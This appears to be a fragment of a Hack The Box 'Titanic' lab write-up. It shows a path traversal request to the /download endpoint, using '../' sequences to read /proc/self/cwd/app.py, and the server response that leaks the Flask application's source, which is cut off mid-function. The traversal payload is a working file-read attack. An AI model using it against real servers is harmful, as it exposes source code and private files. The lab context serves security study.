 ```bash
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://titanic.htb/book
Origin: http://titanic.htb
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Range: 0-1024 bytes

# app.py from flask
# ans
GET /download?ticket=../../../../../../proc/self/cwd/app.py HTTP/1.1
Host: titanic.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://titanic.htb/book
Origin: http://titanic.htb
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

# ans
HTTP/1.1 200 OK
Date: Mon, 30 Jun 2025 04:17:04 GMT
Server: Werkzeug/3.0.3 Python/3.10.12
Content-Disposition: attachment; filename="../../../../../../proc/self/cwd/app.py"
Content-Type: text/x-python; charset=utf-8
Content-Length: 1598
Last-Modified: Fri, 02 Aug 2024 11:08:07 GMT
Cache-Control: no-cache
ETag: "1722596887.981041-1598-3593539851"
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

from flask import Flask, request, jsonify, send_file, render_template, redirect, url_for, Response
import os
import json
from uuid import uuid4

app = Flask(__name__)

# Directory to save the JSON files
TICKETS_DIR = "tickets"

# Ensure the directory exists
if not os.path.exists(TICKETS_DIR):
    os.makedirs(TICKETS_DIR)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/book', methods=['POST'])
def book_ticket():
    data = {
        "name": request.form['name'],
        "email": request.form['email'],
```